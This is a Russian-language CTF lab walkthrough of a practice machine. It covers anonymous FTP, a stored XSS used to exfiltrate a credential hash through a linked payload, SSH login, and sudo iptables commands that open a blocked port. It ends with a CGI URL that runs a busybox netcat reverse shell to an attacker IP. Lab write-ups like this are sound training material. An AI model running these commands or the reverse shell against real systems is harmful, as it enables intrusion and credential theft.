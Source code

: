 После сканирование тачки видим открытые 21,22,80 порт
на 21 порт можно зайти под анонимным пользователем

![](../attachment/Pasted%20image%2020250602184836.png)
Скачиваем файл и видим что данные пользователя хранятся локально в /dir/pass.txt
![](../attachment/Pasted%20image%2020250602184922.png)

Изучив веб находим XSS которая может быть  в логине и отрабатывает когда оставляем комментарией
создадим скрипт который будет загружать файл с нашей тачки. В самом файле пропишем код [raw.githubusercontent.com/hoodoer/XSS-Data-Exfil/main/exfilPayload.js](https://raw.githubusercontent.com/hoodoer/XSS-Data-Exfil/main/exfilPayload.js) изменив нужные строки и получаем хеш в котором содержится логин:пароль

![](../attachment/Pasted%20image%2020250602184807.png)
![](../attachment/Pasted%20image%2020250602184932.png)

Подключаемся по ssh и получаем первый флаг
![](../attachment/Pasted%20image%2020250602184944.png)

![](../attachment/Pasted%20image%2020250602185000.png)

Изучив систему находим текстовой файл 
![](../attachment/Pasted%20image%2020250602185649.png)
 Видим закрытый порт, тк мы можем пользоваться iptables с sudo откроем порт и видим на сайте ошибку
![](../attachment/Pasted%20image%2020250602185729.png)

sudo /usr/sbin/iptables -L --line-numbers
 sudo /usr/sbin/iptables -D INPUT 1
 sudo /usr/sbin/iptables -I INPUT -p tcp --dport 41312 -j ACCEPT

Скачиваем серты/ключи апач чтобы более подробно изучить pcap файл.
![](../attachment/Pasted%20image%2020250603091815.png)

Находим полную ссылку для взаимодействия с сервисом
![](../attachment/Pasted%20image%2020250602190537.png)
![](../attachment/Pasted%20image%2020250602190640.png)


Используем busybos для подключения и забираем флаг рут
https://10.10.38.40:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=busybox%20nc%2010.21.61.35%205555%20-e%20bash

![](../attachment/Pasted%20image%2020250602190905.png)